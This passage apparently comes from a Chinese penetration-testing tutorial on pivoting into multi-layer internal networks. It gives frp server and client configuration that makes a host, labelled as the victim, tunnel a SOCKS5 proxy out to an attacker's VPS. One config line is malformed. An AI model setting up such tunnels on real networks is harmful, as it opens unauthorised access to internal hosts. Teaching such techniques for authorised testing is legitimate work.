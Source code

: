 需要访问的多层网络内网主机

[![](assets/1708095858-26535cd7e241e2f9aa72abdec9b63665.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203746-23f00370-e8e6-1.png)

1、第一层代理搭建

服务端（vps）frps.ini 配置文件

```bash
[common]
bind_addr = 0.0.0.0
bind_port = 2222
```

客户端（受害者主机 192.168.11.128）frpc.ini 配置文件

```bash
[common]
server_addr = x.x.x.x
server_port = 2222

[http_proxy]
type = tcp
local_ip = 192.168.20.100
remote_port = 3333。
local_port 3333
plugin = socks5
```
